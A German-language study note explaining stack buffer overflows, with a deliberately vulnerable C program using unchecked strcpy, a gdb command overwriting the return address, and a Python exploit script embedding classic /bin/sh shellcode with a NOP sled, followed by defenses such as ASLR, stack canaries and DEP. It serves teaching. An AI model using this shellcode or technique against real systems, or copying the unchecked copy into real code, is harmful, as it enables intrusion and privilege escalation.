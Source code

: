 Ein Buffer Overflow (oder Pufferüberlauf) ist, wenn eine Variable ihren eigentlich angedachten Speicherbereich überschreitet. Die kann zum Beispiel passieren, wenn ein Speicherbereich für einen String der Länge 10 reserviert wurde, jedoch ein String der Länge 20, ohne Überprüfung in den Speicherbereich geladen wird.  

Puffer = Speicherbereich
Pufferüberlauf: Die Menge der in den Puffer zu schreibenden Daten ist größer als der Speicherbereich -> Überlauf

## Normale Abarbeitung eines Programms
1. Schrittweise Abarbeitung der Maschinenbefehle, nächster Befehl bei nächsthöherer Speicheradresse
2. Hauptprogramm: Sprunganweisung in ein Unterprogramm (inkl. Parameterübergabe)
	- Herkunftsadresse (Ort von wo das Unterprogramm im Hauptprogramm gestartet wird) muss sich gemerkt werden um an dieser Stelle später das Hauptprogramm fortzuführen
3. Um nach Unterprogramm das Hauptprogramm fortsetzen zu können, wird die Rücksprungadresse auf dem Stack abgelegt.
4. Variablen des Unterprogramms benötigen ebenfalls Platz auf dem Stack -> Trennung zwischen Adresse und Variablen -> `Stack Basepointer` 
5. Sprung in das Unterprogramm
6. Abarbeitung der Maschinenbefehle des Unterprogramms
7. Ende des Unterprogramms 
	1. Rücksprungadresse vom Stack holen
	2. Speicher auf dem Stack wieder freigeben
	3. Rücksprung in das Hauptprogramm
8. Fortsetzung des Hauptprogramms

## Buffer Overflow herbeiführen
Im oben aufgeführten Programmablauf lässt sich ein Buffer Overflow missbrauchen, indem man bei der Ausführung des Unterprogramms einen Buffer Overflow nutzt um (z.B. durch Nutzereingabe eines Strings) den Speicher bis zum `Stack Basepointer` mit dem eigenen Code zu überschreiben. Die `Rücksprungadresse` wird dabei so überschrieben, dass sie auf die Speicheradresse des eingeschleusten Code zeigt. 
Sobald zu der in der `Rücksprungadresse` gespeicherten Adresse gesprungen wird, wird der eingeschleuste Code ausgeführt.
![[stack_aufbau.png]]

Herausforderung aus Angreifer-Sicht:
1. Er weiß nicht an welcher Stelle im Speicher sich die absolute Rücksprungadresse befindet.
   -> Rücksprungadresse mehrfach oberhalb Exploit-Code
2. Er kennt die absoluten Speicheradressen des Programms nicht.
   -> "Landezone" unterhalb des Exploit Code (NOP: no operation)
3. Zeichenkette darf keine `Null`-Bytes enthalten.
   -> Verwendung einer geeigneten Codierung

### Code Beispiele
Damit folgende Beispiele funktionieren wurden einige Sicherheitsmaßnahmen im Betriebssystem deaktiviert.
Siehe auch [[gdb (GNU Debugger)]]. Dieses CLI-Tool wurde verwendet um während des Programmablaufs den Speicher betrachten zu können.

#### Konsolenausgabe
`target0`:
``` C
void versteckt() {
	// Ausgabe eines Strings auf der Standardausgabe
	fprintf(stdout, "You have been pwnd!\n");
}
int funk2(char *arg, char *out) {
	// Kopiert von arg nach out bis arg Nullterminiert (0x00)
	strcpy(out, arg);
	return 0;
}
int funk1(char *argv[]) {
	// allociert 128 Bytes an Speicher
	char buffer[128];
	// ruft funk2 mit dem ersten CMD-Argument auf
	funk2(argv[1], buffer);
}
int main() {
	// Überprüfe, dass genau ein Kommanozeilenparameter übergeben
	// wurde, andernfalls gib eine Fehlermeldung aus
	if (argc != 2) {
		fprintf(stderr, "target0: argc != 2\n");
		exit(EXIT_FAILURE);
	}
	// Rufe funk1 auf
	funk1(argv);
	return 0;
}
```
Die Funktion `versteckt` wird innerhalb von dem Skript `target0` nie aufgerufen. Dennoch lässt sich das Programm über ein Kommandozeilenparameter so manipulieren, dass die Funktion `versteckt` aufgerufen wird. 
Für die Variable `buffer` wurden 128 Bytes an Speicher allokiert. Im Anschluss an den für die Variable `buffer` reservierten Speicher liegt der `Stack Basepointer` (4 Bytes )und im Anschluss daran die `Rücksprungadresse` (ebenfalls 4 Bytes). Da in `funk2` mit dem Methodenaufruf `strcpy` keine Kontrolle stattfindet, ob das Ziel des Kopiervorgangs auch groß genug ist für das übergebene char-Array, lässt sich ein `buffer overflow` herbeiführen und die `Rücksprungadresse` manipulieren.
In diesem Fall wird ein char-Array mit einer Länge von 136 Bytes benötigt um den `Stack Basepointer` und die `Rücksprungadresse` zu überschreiben. Wenn also die letzten 4 Byte des char-Arrays der physischen Adresse der `versteckt`-Funktion entsprechen, wird Diese ausgeführt.

Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run target0 ``python -c "print('A'*132 + '\xbb' + '\x84' + '\x04' + '\x08')"`
```
Vorausgesetzt die physischen Adresse der `versteckt`-Funktion lautet `0x80484bb`
Es entsteht zwar ein `Segmentation Fault` am Ende, doch vorher wurde die `versteckt`-Funktion ausgeführt.

#### Öffnen einer Shell
Statt einfach nur 132 A's in die `buffer`-Variable zu schreiben lässt sich auf diese Weise auch weiterer Maschinencode in ein Programm einschleusen. Zur Generierung des Maschinencodes für die Öffnung einer Shell, lässt sich folgendes Python-Skript nutzen:
`exploit.py`
``` python
# Maschinencode zur Öffnung einer Shell von Aleph One
sc = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
# Speicheradresse von buffer, little endian beachten
buffer_addr = '\x8c\xf5\xff\xbf'
length_buffer = 128
size_ebp = 4 # Länge des Stack Basepointer (Bytes)
size_eip = 4 # Länge der Rücksprungadresse (Bytes)
total_length_input = length_buffer + size_ebp + size_eip
# Ausgabe erzeugen, inkl. NOP Sliding
print((total_length_input - len(sc) - len(buffer_addr)) * '\x90' + sc + buffer_addr) 
```
Die Variable `buffer_addr` muss entsprechend auf die Adresse angepasst werden, wo die Variable im physischen Speicher abgelegt ist. Diese muss jedoch nicht ganz exakt sein, da folgend auf die Adresse die `NOP`-Operation (`\x90`) als eine Art "Landezone" steht. Dadurch funktionieren höhere Adressen (bis zu einem gewissen Grad) auch noch.
Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run `python exploit.py`
```
Die dabei geöffnete Shell besitzt die gleichen Rechte, wie das ausgeführte Programm. Der nächste Schritt wäre nun z.B. eine `privilege escalation` zu erreichen um an `root`-Rechte zu kommen.

## Schutzmaßnahmen gegen Pufferüberläufe: 
<b>Never trust user input</b>
- sorgfältige Programmierung und Nutzung entsprechender Compiler-Funktionen
- Überprüfung des Programmcodes mit speziellen Werkzeugen
- ASLR ( `Address Space Layout Randomization` )
	- Alle Programmteile und alle eingebundenen Bibliotheken müssen ASLR aktiviert haben, sonst ist der Schutz nicht gegeben.
	- virtuelle Adressen werden durchgemixt
- `Stack Canaries` bzw. `Stack Cookies`
	- Im Stack wird zwischen Rücksprungvariable und den eigentlichen Variablen ein zufälliger Wert gespeichert.
	- Bevor die Rücksprungadresse aufgerufen wird wird überprüft, ob sich dieser zufällige Wert geändert hat.
- `Shadow Stack`
	- Man hat einen vom Haupt-Stack getrennten, zusätzlichen Stack, der nur Rücksprungadressen speichert.  Vor dem Rücksprung vergleicht die CPU ob die normale Rücksprungadresse der `Shadow-Stack`-Adresse entspricht
	- Intel CET ( `Control-Flow Enforcement Technology` ) setzt seit Windows 10 diese Taktik um.
- ESP ( `Excecutable Space Protection` ) 
	- Unter Windows heißt es `Data Excecution Prevention`
	- Es kann nur noch Code ausgeführt werden, welcher innerhalb des für Programmcode reservierten Speicherbereichs liegt.
